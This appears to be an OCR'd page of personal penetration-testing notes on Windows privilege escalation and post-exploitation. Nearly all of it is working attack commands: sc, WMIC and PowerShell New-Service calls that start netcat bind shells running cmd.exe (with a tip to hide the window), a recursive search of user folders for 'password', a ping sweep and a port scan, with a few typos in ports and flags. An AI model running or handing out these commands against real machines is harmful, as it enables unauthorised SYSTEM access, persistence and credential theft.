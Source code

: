 # Privilege Escalation

## Privilege Escalation

## Services

Sc \hostname/ip create ncservice binpath= "c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe" ///IMPORTANT space after "binpath= "

Sc \hostname/ip query ncservice => Service is stopped

Make more persistent Sc \hostname create ncservice2 binpath= "cmd.exe /k c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe"

sc \w10 start ncservice2 //will then crash after 30sec but doesnt matter Nc 127.0.0.1 222 ==> run with SYSTEM privileges via the servic created

Victim monitor for port 2222 connections: Netstat nao 1 | find ":2222"

### WMIC

wmic process call create "c:\tools\nc\nc.exe -l -p 4444 -e cmd.exe" ==> Creates cmd popup for user, bad! Use -d option

wmic process call create "c:\tools\nc\nc.exe -d -l -p 4444 -e cmd.exe"

Nc 127.0.0.1 4444

## Network

**Search for a pattern "password" in a directory:** ls -r c:\users | % {sls -path $\_ -pattern password} 2>$null

**Setup a new service which will start cmd with netcat started:** New-Service -Name "ncservice" -BinaryPathName "cmd.exe /k C:\tools\nc\nc.exe -l -p 3333 -e cmd.exe" -StartupType manual Start-Service -Name ncservice Sc.exe delete ncservice

**Ping sweep with powershell:** 1..255 | % {ping -n 1 -w 100 10.10.10.$\_ | sls ttl}

**Portscan:** 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open"} 2>$null
